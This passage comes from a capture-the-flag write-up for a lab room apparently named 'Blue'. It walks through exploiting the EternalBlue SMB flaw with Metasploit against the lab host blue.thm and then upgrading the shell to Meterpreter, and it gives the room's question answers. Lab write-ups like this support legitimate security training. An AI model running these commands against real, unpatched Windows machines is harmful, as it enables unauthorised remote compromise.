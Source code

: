 ```bash

```

> exploit/windows/smb/ms17\_010\_eternalblue

2.2 - Show options and set the one required value. What is the name of this value? (All caps for submission)

> RHOSTS

2.3 - Exploit the machine and gain a foothold.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST blue.thm
RHOST => blue.thm
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.9.80.228
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

<figure><img src="../.gitbook/assets/Schermata del 2023-06-05 21-49-23.png" alt=""><figcaption></figcaption></figure>

### Task 3 - Escalate 

#### 3.1 - Convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter
```

```bash
Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade
   
```
